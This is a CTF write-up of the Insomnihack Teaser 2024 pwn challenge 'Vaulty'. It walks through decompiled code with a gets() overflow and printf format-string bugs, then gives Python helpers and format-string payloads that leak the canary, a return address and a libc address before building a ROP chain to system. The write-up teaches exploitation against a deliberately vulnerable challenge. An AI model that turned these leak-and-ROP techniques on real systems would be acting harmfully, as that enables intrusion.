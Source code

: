 # Insomnihack Teaser 2024 WriteUp: Vaulty

Vaulty was one of the easier pwn-Challenges in this CTF. It is a password manager, in which you can store a URL, username, and a password. This information can later be viewed by specifying the entry's index.

`checksec` reports Partial RELRO, a Stack Canary, NX, and PIE.

## I came; I saw; I decompiled
Since no source code was provided for the challenge, I started off by throwing IDA at it so see what's happening.

Note that I added the symbol names, including the function names for functions other than `main`:
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char passwordStore[979]; // [rsp+10h] [rbp-3E0h] BYREF
  char input[5]; // [rsp+3E3h] [rbp-Dh] BYREF
  unsigned __int64 v6; // [rsp+3E8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  sub_11C9(passwordStore);
  while ( 1 )
  {
    sub_1824();
    fgets(input, 5, stdin);
    switch ( atoi(input) )
    {
      case 1:
        createEntry(passwordStore);
        break;
      case 2:
        modifyEntry(passwordStore);
        break;
      case 3:
        deleteEntry(passwordStore);
        break;
      case 4:
        printEntry(passwordStore);
        break;
      case 5:
        return 0LL;
      default:
        puts("Invalid choice. Please enter a valid option.");
        break;
    }
  }
}
```
While there is no bug here, we can already see that our passwords are thrown onto a stack buffer. Onto `createEntry`:


```c
__int64 __fastcall createEntry(__int64 passwordStore)
{
  [...]

  v14[5] = __readfsqword(0x28u);
  if ( *(int *)(passwordStore + 960) <= 9 )
  {
    fflush(stdin);
    puts("Creating a new entry:");
    puts("Username: ");
    fgets(s, 32, stdin);
    puts("Password: ");
    fgets((char *)v13, 32, stdin);
    puts("URL: ");
    gets(v14, 32LL, stdin);                     // :eyes:
    v2 = (_QWORD *)(passwordStore + 96LL * *(int *)(passwordStore + 960));
    v3 = v10;
    *v2 = *(_QWORD *)s;
    v2[1] = v3;
    v4 = v12;
    v2[2] = v11;
    v2[3] = v4;
    v5 = v13[1];
    v2[4] = v13[0];
    v2[5] = v5;
    v6 = v13[3];
    v2[6] = v13[2];
    v2[7] = v6;
    v7 = v14[1];
    v2[8] = v14[0];
    v2[9] = v7;
    v8 = v14[3];
    v2[10] = v14[2];
    v2[11] = v8;
    ++*(_DWORD *)(passwordStore + 960);
    puts("Entry created successfully.");
  }
  else
  {
    puts("Vault is full. Cannot create more entries.");
  }
  return 0LL;
}
```
At this point, I was really hoping that the bug was not in the lower part of this function, because this looks awful.
Anyway, this function contains our first bug: A good'old `gets` is used to get the URL from the user.
This is not going to be enough though, since we have a stack canary, and have no way to bypass ASLR/PIE yet.
This will change in `printEntry` though:

```c
unsigned __int64 __fastcall printEntry(__int64 a1)
{
  int index; // [rsp+14h] [rbp-1Ch]
  char *format; // [rsp+18h] [rbp-18h]
  char s[5]; // [rsp+23h] [rbp-Dh] BYREF
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  printf("Select an entry to view (0-%d):\n", (unsigned int)(*(_DWORD *)(a1 + 960) - 1));
  fgets(s, 5, stdin);
  index = atoi(s);
  if ( index >= 0 && index < *(_DWORD *)(a1 + 960) )
  {
    format = (char *)(a1 + 96LL * index);
    printf("Username: ");
    printf(format);               // <- Format String injection
    printf("Password: ");
    printf(format + 32);          // <- Format String injection
    printf("Url: ");
    printf(format + 64);          // <- Format String injection
    putchar(10);
  }
  else
  {
    puts("Invalid entry number.");
  }
  return v5 - __readfsqword(0x28u);
}
```
Here, we directly use the user-provided input as the first argument to printf: A Format-String Injection!
These two vulnerabilities will be enough for us to pwn this challenge.

# Onto the exploit
I started off by writing wrapper functions for creating and viewing entries:
```python
def createEntry(username, password, url):
    recv_until("Vault Menu:")
    send("1\n") # create entry

    recv_until("Username")
    send(username)

    recv_until("Password")
    send(password)

    recv_until("URL")
    send(url)

def printEntry(index):
    recv_until("Vault Menu:")
    send("4\n") # print entry

    recv_until("Select an entry")
    send(f"{index}\n")

    recv_until("Username: ")
    username = recv_until("Password: ")
    username = username[:len(username) - len("Password: ")]

    password = recv_until("\n")

    recv_until("Url: ")
    url = recv_until("\n")
    return (username, password, url)
``` 

First, I leaked the stack canary and `printEntry`'s return address by reading quadwords from the respective offset on the stack:
```python
createEntry(f"%{stack_canary_index}$llx\n", f"%{ret_addr_index}$llx\n", f"1337\n")
(stack_canary, ret_addr, _) = printEntry(0)
```

That way, PIE was already broken.

Onto the libc: For that, I placed a got address into the stack, and dereferenced it:
```python
createEntry(p64(got_puts) + b"\n", f"%{got_addr_index}$s\n", "1337\n")
```

And now, I have everything I need to write that ROP-chain: `pop rdi; ret`, `ret` (for correct stack alignment), and `system`. Profit!
